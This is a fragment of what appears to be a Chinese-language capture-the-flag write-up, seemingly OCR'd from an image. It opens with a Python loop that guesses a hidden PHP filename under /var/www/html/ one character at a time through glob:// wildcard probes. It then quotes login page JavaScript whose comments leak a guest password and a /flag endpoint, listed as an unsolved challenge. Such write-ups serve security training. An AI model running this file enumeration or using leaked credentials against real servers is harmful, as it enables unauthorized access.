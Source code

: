 		  def test_count(c):
		      return test_path("glob:///var/www/html/" + "?" * c + ".php")
		  
		  known = ""
		  target_length = 27
		  while len(known) < target_length:
		      for i in range(32, 128):
		          if chr(i) in ["*", "?", "[", "]"]:
		              continue
		          guess = known + chr(i)
		          glob = "glob:///var/www/html/" + guess + "?" * (target_length - len(guess)) + ".php"
		          if test_path(glob):
		              known += chr(i)
		              print(known)
		              break
		      else:
		          break
		  
		  ```
- # flag 保卫战(施工中)
  collapsed:: true
	- > 施工中，未解出
	- 信息泄漏
		- ```js
		  
		      // 访客密码  password 123456
		      // /flag?pass=123456
		      $(document).ready(function() {
		          $('#loginForm').on('submit', function(e) {
		              e.preventDefault();
		              const username = $('#username').val();
		              const password = $('#password').val();
		              $.ajax({
		                  url: '/login',  // your login API endpoint
		                  type: 'POST',
		                  contentType: 'application/json',
		                  data: JSON.stringify({
		                      'username': username,
		                      'password': password
		                  }),
		                  success: function(data, textStatus, xhr) {
		                      if (xhr.status === 200) {
		                          // handle successful login here
		                          window.location.href = "/upload";
		                      }
		                  },
		                  error: function(xhr, textStatus, error) {
		                      if (xhr.status === 401) {
		                          document.getElementById("error-message").textContent = "用户名或密码错误";
		                      }
		                  }
		              });
		          });
		      });
		  